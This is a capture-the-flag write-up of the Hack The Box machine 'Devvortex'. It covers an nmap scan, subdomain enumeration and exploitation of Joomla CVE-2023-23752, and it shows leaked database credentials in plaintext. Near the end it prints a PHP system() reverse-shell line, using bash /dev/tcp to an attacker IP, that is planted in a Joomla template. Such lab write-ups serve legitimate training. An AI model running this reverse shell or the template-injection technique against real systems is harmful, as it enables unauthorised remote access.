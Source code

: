 # Devvortex
![Devvortex](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/c8f28c35-9ff8-4f1a-af51-b7013934aedb)

Initial nmap scan
```s
──(kali㉿kali)-[~/Documents/htb_os3/devvortex]
└─$ nmap -Pn -sV -sC 10.10.11.242 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-02 07:22 EST
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 07:22 (0:00:06 remaining)
Nmap scan report for 10.10.11.242
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.98 seconds
```


![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/badd88ee-3076-4613-b7d0-68c9609804d7)

Found dev.devvortex.htb subdomain with enumeration.
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/7c2a69b4-6f6d-41f2-b044-2e1aa13afa9b)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/701bc573-5ad9-45c2-89bd-a08593f3ed10)


Directory enumeration on dev subdomain
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/213eeafc-5770-4028-b4a3-c16a99d6cf63)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/b558310d-83f2-4601-ac23-ddc63aef1241)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/e7a5ee19-f346-4495-9014-11f3f12eb4e0)

404
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/b52bf897-1bfe-48ce-9e0d-26f67b6c4a81)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/d851416d-2897-44cc-849d-ecb119651643)


Joomla enumerationg and analysis
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#version
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/e3cff6ed-e3f4-4649-a71e-488afa3b19ad)

"<version>3.0.0</version>"
Possible vulns
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/a3519557-f24d-4a8f-ac37-bd460b692afb)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/2a6b15c8-c267-4c4c-a00a-a5241d7d96e5)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/3d20a155-f422-425f-b405-87b8a813d4fa)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/8499ed45-d418-453d-96b2-1d3d544f67ea)
Verdsion 4.2.6
Well try CVE-2023-23752
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/bb0b8e7b-7512-49ee-8500-a82143b54272)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/264e5360-7d26-4527-9a71-c261ee248100)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/6bd84eaf-ba63-4859-8ee8-589b934b8e53)
![help](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/a6465125-326e-4baf-b833-07ec72587838)
https://www.exploit-db.com/exploits/51334
https://github.com/Acceis/exploit-CVE-2023-23752
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/48c8d6e5-3982-480d-9251-d05134b25373)
```s
Users
[649] lewis (lewis) - lewis@devvortex.htb - Manager
Administrator
Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```
Obtained joomla user and pass. No ssh login with pwnd credentials.
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/ebf0cdb9-cac6-4fd7-baea-b36bf1ebda61)

Now an CE would be nice. Or just some arbitrary file reads.
Using templates change php and then execute by making req
http://dev.devvortex.htb/administrator/templates/atum/error.php
Used bash -c wrapper otherwise session dies instantly.
```s
system('bash  -c "sh -i >& /dev/tcp/10.10.16.26/9898 0>&1"');
```

![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/ced2881a-0a71-466d-b030-37355627a0af)







